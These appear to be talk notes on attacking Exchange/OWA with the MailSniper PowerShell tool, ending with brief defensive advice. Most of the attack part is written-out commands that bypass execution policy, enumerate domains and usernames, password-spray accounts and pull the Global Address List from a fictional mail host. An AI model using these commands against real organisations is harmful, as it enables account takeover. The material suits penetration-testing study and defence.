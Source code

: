 Attacking Exchange/OWA to Gain Access to AD Accounts – Tradecraft Security Weekly #3

# The Exchange Attack Surface 
- Extremely rare for orgs to not rely on email heavily
- Exchange and O365 are the most popular
- These services are commonly tied to an AD infrastructure
- Usually exposed to the Internet for Webmail usage

# Steps to Compromise
- Recon to discover usernames
- Discovery of mail server
- Internal domain enumeration
- Username enumeration
- Password spraying
- Get the Global Access List
- More password spraying

# MailSniper
https://github.com/dafthack/MailSniper
- Invoke-DomainHarvestOWA
- Invoke-UsernameHarvestOWA
- Inoke-PasswordSprayOWA
- Get-GlobalAddressList
```
C:\ powershell.exe -exec bypass
PS> Import-Module .\MailSniper.ps1
```
create potential domainlist to find internal domain name
```
PS > Invoke=DomainHarvestOWA -ExchHostname deathstar-mail.corp.empire.com -DomainList C:\temp\domainlist.txt -OutFile potential-domains.txt
```
Create a userlist file of potential users we have enumerated then pass it to the domainname we found above
```
PS> Invoke-UsernameHarvestOWA -ExchHostname deathstar-mail.corp.empire.com -UserList C:\temp\userlist.txt -DOMAIN EMPIRE
```
Password spray against found usernames
```
PS> Invoke-PasswordSprayOWA -ExchHostname deathstar-mail.corp.empire.com -DOMAIN EMPIRE -UserList C:\temp\userlist.txt -Password Spring2017
```
Use valid credential to grab the global name list
```
PS> Get-GlobalAddressList -ExchHostname deathstar-mail.corp.empire.com -UserName EMPIRE\found-creduser -Password Spring2017 -OutFile gal.txt
```
rinse and repeat

# For the Blues
- Lock down any Exchange services (like EWS, or MAPI over HTTP) that are not needed
- Ensure your 2FA software is covering all services
- Alert on password spraying; identify compromised user accounts and change their passwords immediately


























